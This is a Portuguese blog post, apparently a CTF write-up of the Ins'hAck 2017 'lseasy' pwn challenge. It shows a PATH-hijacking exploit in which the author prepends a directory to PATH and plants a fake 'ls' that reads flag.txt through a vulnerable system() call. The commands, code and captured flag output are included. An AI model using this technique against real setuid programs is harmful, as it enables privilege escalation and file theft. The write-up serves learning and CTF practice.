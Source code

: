 ```yaml
---
layout: default
title: PWN1 - Explorando system() call [INS'hAck 2017] Write-up
date: 2017-04-18 19:47
author: brennords
comments: true
categories: [CTFs]
---
```

O <a href="https://ctftime.org/event/444">Ins'hAck</a> foi um ctf online que ocorreu do dia 6 de abril ao dia 9. Teve uns desafios bem interessantes e foi bem organizado pelo time <a href="https://ctftime.org/team/11869">InSecurity</a>.

Este write-up é referente ao primeiro nível de pwn e foi simples caso você já soubesse o caminho. Mas, sendo o noob que sou, demorei um pouco para sacar onde estava a falha e quando resolvi o chall fiquei feliz em ter aprendido algo novo.

A descrição era a seguinte:

<blockquote>My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh you_ssh_user@pwn1.ctf.insecurity-insa.fr

Note: Please see your profile to know you SSH creds.</blockquote>

Que em português seria:

<blockquote>Meu chuveiro não quer me dar água quente :/ talvez seja um hacker? :0 Você pode ajudar?</blockquote>

E logo abaixo as instruções para conectar ao ssh do ctf que ficou offline desde o fim da competição.

Mas não se desespere. Ainda é possível tentar resolver pegando <a href="https://github.com/HugoDelval/inshack-2017/raw/master/challenges/pwn/lseasy-75/public-files/lseasy.zip">neste link</a> uma cópia do desafio.

Dentro do arquivo zipado há um elf executável chamado <strong><em>lseasy</em></strong> acompanhado do seu código fonte <em><strong>vuln.c</strong></em>. Estes dois arquivos podiam ser encontrados dentro do servidor junto com o arquivo flag.txt. Obviamente este arquivo não tinha permissões de leitura para meu usuário atual, mas podia ser lido pelo usuário que <strong><em>lseasy</em></strong> rodava. É o tipo de coisa padrão nesses desafios xpl/pwn. O objetivo é explorar o desafio e seus privilégios para, de alguma forma, ler o arquivo da flag.

Ao se executar o binário pela primeira vez, se percebe que ele apenas lista os arquivos do diretório atual. Uma olhada no código fonte<strong><em> </em></strong>confirma que essa é sua única função:

https://gist.github.com/anonymous/537b9729bb928e98d5af400aae650168

Não há muito o que explicar. Perdi tempo tentando variadas maneiras ler a flag. Logo estava lendo a <a href="http://man7.org/linux/man-pages/man3/system.3.html">manpage da função system</a>. Parecia ser a única coisa restante a ser explorada. Na seção de notas encontrei um aviso que dizia para não usa-la em programas SUID porque valores das variáveis de ambiente podiam ser usados para subverter o sistema. Ok, é exatamente o objetivo. Mas a nota não dizia como fazer isso.

Pesquisei por "exploit system call" no google e encontrei um<a href="https://www.go4expert.com/articles/exploit-c-t24920/"> tutorial mastigado</a> de como explorar um programa de exemplo exatamente igual ao do chall.

O segredo é que system vai procurar pelo binário nos caminhos contidos na <a href="https://www.vivaolinux.com.br/artigo/O-que-e-PATH-como-funciona-e-como-trabalhar-com-ele">variável de sistema <strong>PATH</strong></a>. E, como nada impede a alteração desta variável, é possível adicionar um caminho arbitrário.

```

brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ PATH=$HOME/Docs/ctf/inshack2017/pwn1:$PATH
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/home/brenno/Docs/ctf/inshack2017/pwn1:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```

O primeiro comando printa minha variável PATH atual, no segundo eu adiciono o caminho "$HOME/Docs/ctf/inshack2017/pwn1" no ínicio da varíavel de sistema e o terceiro printa o conteúdo alterado.

Agora, sempre que system for procurar o binário de ls, vai olhar primeiro dentro de "$HOME/Docs/ctf/inshack2017/pwn1". E é onde criei um ls mais coerente com meu objetivo.

```

brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ cat ls.c
#include stdio.h

int main() {
system(cat flag.txt);
return 0;
}
^C
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ gcc ls.c -o ls
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ ./lseasy
The content of the current folder is :
INSA{SySt3m_1s_3v1l_-}
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$

```

Na primeira parte criei um simples programa em C usando a mesma função system para executar o comando <strong>cat flag.txt</strong>. Então o compilei dando o nome de ls e, ao executar o binário lseasy pode-se ver que ao invés de imprimir o conteúdo da pasta, ele imprime o conteúdo de flag.txt.



